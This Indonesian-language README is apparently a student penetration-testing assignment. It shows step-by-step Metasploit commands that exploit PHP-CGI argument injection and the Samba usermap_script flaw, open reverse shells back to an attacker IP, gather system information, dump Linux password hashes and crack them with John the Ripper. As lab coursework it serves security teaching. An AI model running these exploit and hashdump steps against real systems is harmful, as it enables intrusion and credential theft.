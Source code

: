 ### *Nmap*
1. Nmap adalah salah satu tool yang sudah tersedia di dalam Kali Linux. Jika Anda ingin mengetahui apakah di dalam OS Anda telah tersedia Nmap atau belum, Anda dapat membuka terminal dan memasukkan perintah `nmap`. Tampilan akan berganti seperti di bawah ini apabila Anda telah menginstall Nmap.
<p align="center">
![alt text](https://github.com/adeilhamfajri/PKSJ_Gokilz/blob/master/Dokumentasi/Tugas%205%20-%20Penetration%20Testing%20(Metasploit)/Install%20Nmap/1.PNG?raw=true)
</p>

---

## Penetration Testing

### Exploit : php_cgi_arg_injection, Post Exploitation : enum_system
1. Penjelasan exploit php_cgi_arg_injection dapat dilihat pada [https://pentesterlab.com/exercises/cve-2012-1823/course]
2. Vulnerability yang akan kita coba bobol kali ini akan menggunakan exploit yaitu php_cgi_arg_injection. Setelah membuka msfconsole, kita dapat memasukkan perintah `use exploit/multi/http/php_cgi_arg_injection`.
3. Masukkan IP alamat target yang akan diserang dengan memasukkan `set RHOST [IP_TARGET]`.
4. Payload yang akan kita gunakan adalah reverse_tcp, `set PAYLOAD php/meterpreter/reverse_tcp`.
5. Masukkan IP alamat penyerang, `set LHOST [IP_ATTACKER]`.
6. Untuk melihat status dapat dilakukan dengan `show options`.
7. Setelah kita masuk di meterpreter, kita dapa melihat list file dengan memasukkan `ls`.
8. Untuk mengetahui id/username dari session kita, masukkan `getuid`.
9. Untuk mendapatkan informasi dari komputer, masukkan `sysinfo`.
10. Untuk melakukan Post Exploitation, tekan ctrl+Z dan pilih `y`.
11. Post Exploitation yang akan kita jalankan adalah enum_system, yaitu untuk mendapatkan informasi dari sistem target. Masukkan `use post/linux/gather/enum_system`.
12. Set session sesuai ID session yang terbuka, `set SESSION [SESSION_ID]`.
13. Jalankan exploit dengan perintah `run`. Maka akan mendapatkan info seperti di bawah ini (karena session yang terbuka bukanlah root, jadi yang bisa kita dapatkan hanya sebatas informasi-informasi seperti OS).

### Exploit : usermap_script, Post Exploitation : hashdump
1. Vulnerability kedua yang akan kita coba bobol kali ini akan menggunakan exploit usermap_script (SAMBA). Masukkan perintah `use exploit/multi/samba/usermap_script`.
2. Masukkan `show payloads` untuk melihat payload apa saja yang dapat kita gunakan.
3. Payload yang akan kita gunakan adalah `cmd/unix/reverse`.
4. Masukkan perintah `set PAYLOAD cmd/unix/reverse`.
5. Masukkan IP target dengan `set RHOST [IP_TARGET]`.
6. Masukkan port target yang akan kita buka, `set RPORT 445`.
7. Masukkan IP penyerang dengan `set LHOST [IP_ATTACKER]`.
8. Jalankan exploit dengan `exploit`.
9. Jika sudah kita jalankan dan berhasil, tandanya seperti di bawah ini.
10. Berikut ini contoh-contoh perintah yang dapat kita masukkan.
11. Tekan ctrl+Z dan pilih `y`.
12. Untuk melihat daftar session yang terbuka dapat kita lakukan dengan `sessions -l`.
13. Kali ini kita akan melakukan Post Exploitation yang bernama hashdump untuk mendapatkan database. Masukkan perintah `use post/linux/gather/hashdump`.
14. Set session yang terbuka, `set SESSION [ID_SESSION]`.
15. Jalankan exploit dengan memasukkan `exploit`.
16. Databse berupa usernam password yang berhasil kita dapatkan telah di enkripsi. Untuk itu kita perlu melakukan *dictionary attack* dengan bantuan tool lain yaitu *John de Ripper*. Pertama masuklah ke direktori `/usr/sbin`. Jalan kan file john ddengan perintah `./john [ALAMAT_FILE_DUMP]`.

